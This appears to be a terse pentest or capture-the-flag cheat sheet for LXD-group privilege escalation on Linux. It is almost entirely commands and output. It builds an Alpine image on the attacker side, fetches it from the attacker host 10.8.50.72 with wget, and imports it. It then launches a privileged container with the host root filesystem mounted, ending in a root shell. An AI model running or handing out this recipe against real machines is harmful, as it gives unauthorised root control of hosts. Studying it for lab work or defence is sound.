 # Attacker

## Get Image

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server
```
## Make image available

```
python3 -m http.server
```

# Target

$ wget http://10.8.50.72:8000/alpine-v3.12-x86_64-20200902_1515.tar.gz

$ lxc image list

+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+

$ lxc image import ./alpine-v3.12-x86_64-20200902_1515.tar.gz --alias myimage
Image imported with fingerprint: 65dd1e31f4cc984602e9be582bf80196cd05d44531b18ad8208ce062f09105ab

$ lxc image list

+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 65dd1e31f4cc | no     | alpine v3.12 (20200902_15:15) | x86_64 | 3.04MB | Sep 2, 2020 at 1:18pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

$ lxc init myimage ignite -c security.privileged=true
Creating ignite

$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

$ lxc start ignite

$ lxc exec ignite /bin/sh

\# id

uid=0(root) gid=0(root)

\# cd /mnt/root/root/
